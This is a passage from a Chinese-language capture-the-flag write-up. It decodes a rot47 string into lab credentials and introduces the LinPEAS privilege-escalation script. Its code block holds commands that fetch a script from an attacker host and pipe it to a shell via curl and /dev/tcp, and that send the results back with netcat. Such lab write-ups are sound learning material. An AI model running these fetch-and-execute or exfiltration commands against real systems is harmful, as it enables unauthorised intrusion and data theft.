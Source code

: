 **我们可以用 [rot47 在线解密网站](https://www.dcode.fr/rot-47-cipher)来解密这个**

**![](img/d9865aa10bda73c24819dd0e939c9179.png)**

**`{"name":"System","pass":"saydrawnlyingpicture"}`**

**此时，我不知道这个用户名和密码是什么，所以我暂时忽略了它们**

**我被困在这里，所以我用这个[报道](https://briskets.io/overpass/)来学习，这些是我用来理解报道的资源**

# **[linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**

*   ****什么是**[**linpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**？****

**![](img/03617afcfdb042c84bae3875c7b11d00.png)**

**LinPEAS 是一个脚本，用于搜索提升 Linux/Unix*/MacOS 主机权限的可能途径**

*   ****如何使用**[**linpeas**](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)**？****

```
#Local network
 sudo python -m SimpleHTTPServer 80 #Host
 curl 10.10.10.10/linpeas.sh | sh #Victim

 #Without curl
 sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
 cat < /dev/tcp/10.10.10.10/80 | sh #Victim

 #Excute from memory and send output back to the host
 nc -lvnp 9002 | tee linpeas.out #Host
 curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```
